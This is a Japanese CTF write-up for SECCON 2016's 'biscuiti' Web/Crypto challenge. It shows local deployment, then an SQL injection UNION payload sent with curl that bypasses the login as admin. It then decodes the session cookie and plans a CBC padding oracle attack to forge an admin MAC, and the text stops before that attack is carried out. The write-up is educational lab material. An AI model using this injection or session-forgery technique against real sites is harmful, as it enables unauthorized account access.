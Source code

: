 # biscuiti [Web, Crypto / 300pt]

## Problem
biscuiti

Can you login as admin?

[http://biscuiti.pwn.seccon.jp/](http://biscuiti.pwn.seccon.jp/)

[biscuiti.zip](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti.zip)

Note: You should estimate that exploits cost an hour.

## Answer

### 環境構築

[SECCON2016_online_CTF - GitHub](https://github.com/SECCON/SECCON2016_online_CTF/tree/master/Crypto/300_biscuiti)の

`build/README.md`にあるようにデプロイしてみる

```bash
cd build/deploy
vagrant up
sudo gem install itamae
itamae ssh --vagrant roles/main.rb
```

これで[http://localhost:10080](http://localhost:10080)で問題がホストされるようになった

### 問題を解く

![img](img.png)

問題ファイルの[index.php](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti/index.php)の認証部を見てみると


```sql
SELECT username, enc_password from user WHERE username='{$username}'
```

となっていて、SQLインジェクションができそう
ここに、

```sql
'UNION SELECT 'admin','adminadmin
```

を送り込んでやると

```sql
SELECT username, enc_password from user WHERE username=''UNION SELECT 'admin','adminadmin'
```

という文が完成して、

```plain
+-------+------------+
| admin | adminadmin |
+-------+------------+
```
というのが返ってくる。

```plain
$ curl -i -F "username='UNION SELECT 'admin','adminadmin" -F "password=" http://localhost:10080
HTTP/1.1 100 Continue

HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 05:04:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: JSESSION=YToyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6NzoiaXNhZG1pbiI7Tjt9KSOL8reQbsVxc9b0b7idaQ%3D%3D
Vary: Accept-Encoding
Content-Length: 136
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html>
<head><title>Login</title></head>
<body>
Hello admin
<div><a href="logout.php">Log out</a></div>
</body>
</html>
```

`admin`としてログインできる

`%3D`は`=`なので、

```plain
JSESSION=YToyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6NzoiaXNhZG1pbiI7Tjt9KSOL8reQbsVxc9b0b7idaQ==
```

これはBase64っぽいしポストするデータが同じだったら何回アクセスしても変わらない値っぽい

```bash
$ echo -n "YToyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6NzoiaXNhZG1pbiI7Tjt9KSOL8reQbsVxc9b0b7idaQ==" | base64 -d
a:2:{s:4:"name";s:5:"admin";s:7:"isadmin";N;})#����n�qs��o��i
```

`a:2:{s:4:"name";s:5:"admin";s:7:"isadmin";N;}`ここはセッション情報

[http://php.fnlist.com/php/unserialize](http://php.fnlist.com/php/unserialize)

ここで`unserialize`してみると

```php
array (
  'name' => 'admin',
  'isadmin' => NULL,
);
```

[index.php](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti/index.php)の一部

```php
if ($SESSION["isadmin"])
    include("../flag");
```

`isadmin`が`True`だったらよさそう

`)#����n�qs��o��i`これは

[index.php](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Crypto/biscuiti/biscuiti/index.php)の一部

```php
define("ENC_KEY", "***censored***");
define("ENC_METHOD", "aes-128-cbc");
(省略)
function mac($input) {
    $iv = str_repeat("\0", 16);
    $c = openssl_encrypt($input, ENC_METHOD, ENC_KEY, OPENSSL_RAW_DATA, $iv);
    return substr($c, -16);
}
```

ここでの`mac`値は`aes-128-cbc`で暗号化されていて、`ENC_KEY`はわからない。

しかし、任意のユーザーでログイン可能なため平文と`mac`値の双方を手に入れることができる。

その状態から

```php
array (
  'name' => 'admin',
  'isadmin' => ture,
);
```

となる`mac`値を求めれば良さそう。

[CBC modeに対するPadding oracle attackをやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2015/12/23/000923)

> ブロック暗号モードのひとつであるCBC modeには、Padding oracle attackと呼ばれる攻撃手法が存在することが知られている。 これは、繰り返し復号を行うことができ、かつ復号の成否が観測可能なとき、バイトごとのブルートフォースにより暗号文が復元できるというものである。

どうやら`Padding oracle attack`が使えそう

